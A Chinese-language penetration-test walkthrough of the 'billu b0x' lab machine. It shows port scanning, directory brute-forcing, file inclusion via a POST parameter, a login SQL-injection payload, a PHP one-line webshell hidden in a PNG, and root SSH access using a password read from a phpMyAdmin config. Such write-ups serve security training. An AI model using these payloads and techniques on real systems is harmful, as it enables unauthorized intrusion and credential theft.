





## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$sudo nmap -sT --min-rate 9999 -p- 192.168.99.44
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:FA:2A:E4 (VMware)

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O  -p 22,80 192.168.99.44 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 fa:cf:a2:52:c4:fa:f5:75:a7:e2:bd:60:83:3e:7b:de (DSA)
|   2048 88:31:0c:78:98:80:ef:33:fa:26:22:ed:d0:9b:ba:f8 (RSA)
|_  256 0e:5e:33:03:50:c9:1e:b3:e7:51:39:a4:4a:10:64:ca (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: --==[[IndiShell Lab]]==--
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
MAC Address: 00:0C:29:FA:2A:E4 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.23 seconds
```

## 目录爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.99.44 -x php,html,txt
[sudo] kali 的密码：
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.99.44
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 286]
/images               (Status: 301) [Size: 315] [--> http://192.168.99.44/images/]
/index.php            (Status: 200) [Size: 3267]
/index                (Status: 200) [Size: 3267]
/in.php               (Status: 200) [Size: 47524]
/c                    (Status: 200) [Size: 1]
/c.php                (Status: 200) [Size: 1]
/in                   (Status: 200) [Size: 47520]
/show.php             (Status: 200) [Size: 1]
/show                 (Status: 200) [Size: 1]
/add                  (Status: 200) [Size: 307]
/add.php              (Status: 200) [Size: 307]
/test.php             (Status: 200) [Size: 72]
/test                 (Status: 200) [Size: 72]
/head.php             (Status: 200) [Size: 2793]
/head                 (Status: 200) [Size: 2793]
/uploaded_images      (Status: 301) [Size: 324] [--> http://192.168.99.44/uploaded_images/]
/panel.php            (Status: 302) [Size: 2469] [--> index.php]
/panel                (Status: 302) [Size: 2469] [--> index.php]
/head2                (Status: 200) [Size: 2468]
/head2.php            (Status: 200) [Size: 2468]
/.html                (Status: 403) [Size: 286]
/server-status        (Status: 403) [Size: 294]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
## 文件包含

在test页面看到提示需要 file 参数，然而用get传参没有用
使用post传参发现存在文件包含漏洞
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo curl -X POST --data "file=../../../etc/passwd"  http://192.168.99.44/test 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:106::/var/run/dbus:/bin/false
whoopsie:x:104:107::/nonexistent:/bin/false
landscape:x:105:110::/var/lib/landscape:/bin/false
sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
     
得到passwd信息
尝试得到源码信息

```
```php
┌──(kali㉿kali)-[~/workspace]
└─$ sudo curl -X POST --data "file=c.php"  http://192.168.99.44/test
<?php
#header( 'Z-Powered-By:its chutiyapa xD' );
header('X-Frame-Options: SAMEORIGIN');
header( 'Server:testing only' );
header( 'X-Powered-By:testing only' );

ini_set( 'session.cookie_httponly', 1 );

$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");

// Check connection
if (mysqli_connect_errno())
  {
  echo "connection failed ->  " . mysqli_connect_error();
  }

?>

┌──(kali㉿kali)-[~/workspace]
└─$ sudo curl -X POST --data "file=show.php"  http://192.168.99.44/test
<?php
include('c.php');

if(isset($_POST['continue']))
{
        $run='select * from users ';
        $result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {
echo "<table width=90% ><tr><td>ID</td><td>User</td><td>Address</td><td>Image</td></tr>";
 while($row = mysqli_fetch_assoc($result)) 
   {
           echo '<tr><td>'.$row['id'].'</td><td>'.htmlspecialchars ($row['name'],ENT_COMPAT).'</td><td>'.htmlspecialchars ($row['address'],ENT_COMPAT).'</td><td></td></tr>';
}
   echo "</table>";
}
}

?>

┌──(kali㉿kali)-[~/workspace]
└─$ sudo curl -X POST --data "file=add.php"  http://192.168.99.44/test
<?php


echo '<form  method="post" enctype="multipart/form-data">
    Select image to upload:
    <input type="file" name=image>
        <input type=text name=name value="name">
        <input type=text name=address value="address">
        <input type=text name=id value=1337 >
    <input type="submit" value="upload" name="upload">
</form>';


?>

┌──(kali㉿kali)-[~/workspace]
└─$ sudo curl -X POST --data "file=panel.php"  http://192.168.99.44/test 
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
                header('Location: index.php', true, 302);
                exit();

}


echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
if(isset($_POST['lg']))
{
        unset($_SESSION['logged']);
        unset($_SESSION['admin']);
        header('Location: index.php', true, 302);
}
echo '<hr><br>';

echo '<form method=post>

<select name=load>
    <option value="show">Show Users</option>
        <option value="add">Add User</option>
</select> 

 &nbsp<input type=submit name=continue value="continue"></form><br><br>';
if(isset($_POST['continue']))
{
        $dir=getcwd();
        $choice=str_replace('./','',$_POST['load']);

        if($choice==='add')
        {
                include($dir.'/'.$choice.'.php');
                        die();
        }

        if($choice==='show')
        {
        
                include($dir.'/'.$choice.'.php');
                die();
        }
        else
        {
                include($dir.'/'.$_POST['load']);
        }

}


if(isset($_POST['upload']))
{

        $name=mysqli_real_escape_string($conn,$_POST['name']);
        $address=mysqli_real_escape_string($conn,$_POST['address']);
        $id=mysqli_real_escape_string($conn,$_POST['id']);

        if(!empty($_FILES['image']['name']))
        {
                $iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
        $r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
        $image=array('jpeg','jpg','gif','png');
        if(in_array($r,$image))
        {
                $finfo = @new finfo(FILEINFO_MIME); 
        $filetype = @$finfo->file($_FILES['image']['tmp_name']);
                if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
                                {
                                        if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
                                                         {
                                                          echo "Uploaded successfully ";
                                                          $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
                                                         mysqli_query($conn, $update);
                                                          
                                                        }
                                }
                        else
                        {
                                echo "<br>i told you dear, only png,jpg and gif file are allowed";
                        }
        }
        else
        {
                echo "<br>only png,jpg and gif file are allowed";

        }
}


}

?>

┌──(kali㉿kali)-[~/workspace]
└─$ sudo curl -X POST --data "file=index.php"  http://192.168.99.44/test
[sudo] kali 的密码：
<?php
session_start();

include('c.php');
include('head.php');
if(@$_SESSION['logged']!=true)
{
        $_SESSION['logged']='';

}

if($_SESSION['logged']==true &&  $_SESSION['admin']!='')
{

        echo "you are logged in :)";
        header('Location: panel.php', true, 302);
}
else
{
echo '<div align=center style="margin:30px 0px 0px 0px;">
<font size=8 face="comic sans ms">--==[[ billu b0x ]]==--</font> 
<br><br>
Show me your SQLI skills <br>
<form method=post>
Username :- <Input type=text name=un> &nbsp Password:- <input type=password name=ps> <br><br>
<input type=submit name=login value="let\'s login">';
}
if(isset($_POST['login']))
{
        $uname=str_replace('\'','',urldecode($_POST['un']));
        $pass=str_replace('\'','',urldecode($_POST['ps']));
        $run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
        $result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {

$row = mysqli_fetch_assoc($result);
           echo "You are allowed<br>";
           $_SESSION['logged']=true;
           $_SESSION['admin']=$row['username'];
           
         header('Location: panel.php', true, 302);
   
}
else
{
        echo "<script>alert('Try again');</script>";
}

}
echo "<font size=5 face=\"comic sans ms\" style=\"left: 0;bottom: 0; position: absolute;margin: 0px 0px 5px;\">B0X Powered By <font color=#ff9933>Pirates</font> ";

?>
```

## sql注入进后台
看到index的源码
select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\''
那么输入uname=or 1 --+ pass=\时，这句sql查询就会变成
select * from auth where  pass='\' and uname='or 1 --+'
sql注入就产生了
登录后台    

此时可以发现有个添加用户的选项，这个功能点是可以上传图片的
根据前面拿到的源码，可以知道这个地方的功能点就是包含了add.php 
只是之前add.php在尝试过程中缺少身份验证，无法执行成功


## 图片马上传利用

图片马制作
```bash
D:\@TOOLS\web\1122>copy GETphppngshell-x.png/b+GETphp-x.php GETphppng-x.png
GETphppngshell-x.png
覆盖 GETphppng-x.png 吗? (Yes/No/All): yes
GETphp-x.php
已复制         1 个文件。
```

一句话木马:<?php @system($_GET[x]); ?>

利用panel功能页面的load功能点，直接包含了图片马
可以执行命令。那么直接php反弹shell了


拿到www-data的shell

在ls时发现了phpmy目录
进入查看配置文件是否存在用户密码
```bash
www-data@indishell:/var/www$ cat phpmy/confing.inc.php
cat phpmy/confing.inc.php
cat: phpmy/confing.inc.php: No such file or directory
www-data@indishell:/var/www$ cat phpmy/config.inc.php
cat phpmy/config.inc.php
<?php

/* Servers configuration */
$i = 0;

/* Server: localhost [1] */
$i++;
$cfg['Servers'][$i]['verbose'] = 'localhost';
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['port'] = '';
$cfg['Servers'][$i]['socket'] = '';
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['extension'] = 'mysqli';
$cfg['Servers'][$i]['auth_type'] = 'cookie';
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
$cfg['Servers'][$i]['AllowNoPassword'] = true;

/* End of servers configuration */

$cfg['DefaultLang'] = 'en-utf-8';
$cfg['ServerDefault'] = 1;
$cfg['UploadDir'] = '';
$cfg['SaveDir'] = '';


/* rajk - for blobstreaming */
$cfg['Servers'][$i]['bs_garbage_threshold'] = 50;
$cfg['Servers'][$i]['bs_repository_threshold'] = '32M';
$cfg['Servers'][$i]['bs_temp_blob_timeout'] = 600;
$cfg['Servers'][$i]['bs_temp_log_threshold'] = '32M';


?>
```
$cfg['Servers'][$i]['user'] = 'root';
$cfg['Servers'][$i]['password'] = 'roottoor';
发现了root的用户名和密码
ssh连接root
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo ssh root@192.168.99.44
[sudo] kali 的密码：
The authenticity of host '192.168.99.44 (192.168.99.44)' can't be established.
ECDSA key fingerprint is SHA256:UyLCTuDmpoRJdivxmtTOMWDk0apVt5NWjp8Xno1e+Z4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.99.44' (ECDSA) to the list of known hosts.
root@192.168.99.44's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Mon Feb 19 05:57:49 IST 2024

  System load:  0.0               Processes:           114
  Usage of /:   13.7% of 9.61GB   Users logged in:     0
  Memory usage: 22%               IP address for eth0: 192.168.99.44
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Your Hardware Enablement Stack (HWE) is supported until April 2017.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@indishell:~# ls
root@indishell:~# pwd
/root
root@indishell:~# whoami
root
root@indishell:~# 
```
可以发现登陆上去就是root权限